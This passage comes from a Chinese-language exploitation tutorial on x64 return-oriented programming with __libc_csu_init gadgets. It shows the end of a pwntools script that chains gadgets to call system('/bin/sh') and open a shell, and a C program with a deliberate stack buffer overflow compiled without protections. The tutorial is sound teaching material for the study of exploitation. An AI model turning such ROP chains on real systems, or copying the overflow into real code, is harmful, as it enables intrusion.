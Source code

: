 ```python
payload2 += p64(0x4005F0) 
payload2 += "\x00" * 0x38
payload2 += p64(main)
 
p.send(payload2)
sleep(1)
 
p.send(p64(system_addr))
p.send("/bin/sh\0")
 
p.recvuntil("Hello, World\n")
 
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 =  "\x00" * 136
payload3 += p64(0x400606) + p64(0xdeadbeef) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0)
payload3 += p64(0x4005F0)
payload3 += "\x00" * 0x38
payload3 += p64(main)
 
p.send(payload3)
 
p.interactive()
```

-----

#### 一个简单的通用gadgets例子
漏洞代码
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```
编译
```
gcc -fno-stack-protector -z execstack -o level5 level5.c
```
checksec
```python
python
>>> from pwn import *
>>> print ELF('level5').checksec()
[*] '/root/sploitfun/64/64/level5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments

```
在x64下有一些万能的gadgets可以使用。比如用`objdump -d vuln3 -M intel |less`观察一下`__libc_csu_init()`这个函数。程序只要调用了libc.so，就会有这个函数对libc进行初始化。
